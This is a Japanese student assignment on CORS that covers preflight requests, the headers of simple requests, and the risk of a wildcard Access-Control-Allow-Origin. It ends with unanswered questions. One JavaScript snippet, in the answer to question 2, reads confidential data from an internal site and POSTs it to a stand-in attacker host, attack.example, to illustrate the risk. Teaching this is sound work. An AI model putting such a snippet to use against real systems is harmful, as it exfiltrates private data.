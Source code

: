 # 課題6

## 問題１

Wev APIを利用したアプリケーションではよく、フロントエンドとバックエンドが別々のオリジンで配信される。
しかし、画面生成元のオリジンとリクエスト先のオリジンが異なる場合、同一オリジンポリシーによりレスポンスを処理することができない。
外部サイトからの不適切なAPIの利用を防ぐには都合がよいが、異なるオリジンにある正規サイトから利用する際には不都合が生じる。
そこで、正規のサイトのオリジンを許可することで制限を限定的に解除できる仕組みが「CORS（Cross-Origin Resource Sharing: オリジン間リソース共有）」と言う。  

異なるオリジンのAPIサーバーに対してリクエストを送信するとき、ブラウザはOriginリクエストヘッダーに現在のオリジンを付与する。
APIサーバーはOriginリクエストヘッダーを確認することで、どのオリジンからのリクエストか把握することができ、そのオリジンからのアクセスを許可する場合は、Access-Control-Allow-Originレスポンスヘッダーに許可するOriginを付与して返す。
レスポンスを受信したブラウザは、Access-Control-Allow-Originレスポンスヘッダーを確認し、アクセスが許可されているオリジンであれば、レスポンスを処理する。  

さきほど、APIサーバーはOriginリクエストヘッダーを確認すると述べたが、サーバー側は確認するために異なるオリジンであれ、リクエストを受け取っている。
つまり、サーバー側でリクエストに対する処理が行われることを意味する。
例えば、APIサーバーにDELETEリクエストを送信したとする。
もし、APIサーバーがCORSに対応しておらず、Originリクエストヘッダーを制限する実装になっていなかったら、このDELETEリクエストを受け入れ削除を実行してしまう。
ただし、CORSに対応していないためレスポンスにAccess-Control-Allow-Originレスポンスヘッダーは無い。
すると、ブラウザはレスポンスを確認してCORS違反と判断しエラーにするが、サーバー側での削除処理は実行されてしまう。
そのため、サービスに重大な影響を及ぼす恐れのある操作は、Access-Control-Allow-Originレスポンスヘッダーを確認したブラウザが処理を実行する前に、リクエストそのものを止めなければならない。
これを解決するために、今から送ろうとしているCORSリクエストをAPIサーバーが許可しているのか確認するために、Preflight Requestが考案された。  

Preflight Requestはサーバーに事前確認を行うために、ブラウザによって自動で送信される。
例えば、DELETEのリクエストを送信しようとすると、ブラウザは次のようなPreflight Requestのリクエストを送信する。

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)  

ブラウザは、OPTIONSメソッドでAccess-Control-Request-Methodリクエストヘッダーにこれから送信するメソッドを付与し、リクエストを送信する。
サーバーが許可している場合は、次のようなPreflight Requestへのレスポンスを返す。

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)

そして、サーバーはAccess-Control-Allow-Methodsレスポンスヘッダーに許可しているメソッドをブラウザに伝える。
受け取ったブラウザは、「このサーバーはCORSに対応しており、このOriginからのDELETEを許可している」と判断し、実際のリクエストを送信する。
これにより、CORSが許可されていない場合でも、実際のDELETEリクエストを送らず、サービスに意図しない影響が発生するのを防ぐことができる。

一方で、Preflight Requestが不要なリクエストをSimple Requestと呼ぶ。
Simple Requestについては後述する。

## 問題2

Access-Control-Allow-Origin: * は、すべてのオリジンからのリクエストを許可する。
これは、攻撃者に重要な情報が盗まれる可能性がある。
例えば、https://company.exampleは、外部に漏れてはいけない社外秘の情報があり、社内ネットワークに接続した社員のみアクセスできるとする。
また、社員は社内ネットワークだけはなく、社外ネットワーク（インターネット）にもアクセスすることができる。
攻撃者は、その社外秘の情報を盗むために、Webサイト https://attack.example を用意し、社員がアクセスするように何らかの方法で誘導する。
社員がこの悪意あるサイトにアクセスすると、攻撃者に仕込まれていた次のようなJavaScriptにより、社外秘の情報が盗まれてしまう。

``` JavaScript
// Attackから社外秘の情報を取得する
const res  = await fetch("https://company.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

このような攻撃が成立しないようにするために、Access-Control-Allow-Originには、信頼あるオリジンを登録した方が良い。

## 問題3

- 仕様で定義された[CORS-Safelisted Method](https://fetch.spec.whatwg.org/#cors-safelisted-method)および[CORS-Safelisted Request Header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)を満たしていること。

- Content-Typeヘッダーでは以下の値のみが使用されていること。
  - application/x-www-form-urlencoded
  - multipart/form-data
  - text/plain
- リクエストに使用されるどのXMLHttpRequestUploadにもイベントリスナーが登録されていないこと。
- リクエストに ReadableStream オブジェクトが使用されていないこと。  
[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS#simple_requests)

## 問題4

シンプルなリクエストの場合はpreflightリクエストが送信されず、そのままリクエストがサーバに到達します。サーバからのレスポンスのAccess-Control-Allow-Originヘッダーに、リクエスト送信元のオリジンが含まれない場合、ブラウザはどのような挙動を取るでしょうか？

## 問題5

XMLHttpRequestを使ってクロスオリジンリクエストを発行する際、デフォルトの挙動だとリクエストにクッキーが含まれません。クッキー情報を含むためには、何をする必要があるでしょうか？

## クイズ1
